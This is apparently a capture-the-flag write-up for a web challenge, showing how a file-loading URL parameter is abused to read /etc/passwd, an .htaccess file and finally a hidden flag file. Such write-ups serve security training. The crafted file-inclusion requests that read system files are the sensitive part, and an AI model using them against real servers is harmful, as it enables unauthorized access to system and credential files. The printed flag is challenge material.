

# Hot Acess

> This small program lets you load convenient and simple PHP modules and resources from this Apache webserver. Check out what you can access!

I read the source of the index page, and found the links that were used to load php files.
```html
		<ul>
			<li> <a href="http://jh2i.com:50016/?m=modules/date.php"> date </a></li>
			<li> <a href="http://jh2i.com:50016/?m=modules/time.php"> time </a></li>
		</ul>
```

So I changed the query string to load `etc/passwd`
> http://jh2i.com:50016/?m=\etc\passwd
and it worked!   


Then I tried opening .htaccess file, and it worked to and it gave this location a directory

```xml
<Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all
 
 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>
	
	AllowOverride All
 
 </Directory> 
```


So the flag has to be inside this directory `/var/www/html/sshh_dont_tell_i_hid_the_flag_here`, I tried opening http://jh2i.com:50016/?m=/var/www/html/sshh_dont_tell_i_hid_the_flag_here/flag.txt and it gave the flag!


> #### LLS{htaccess_can_control_what_you_access}


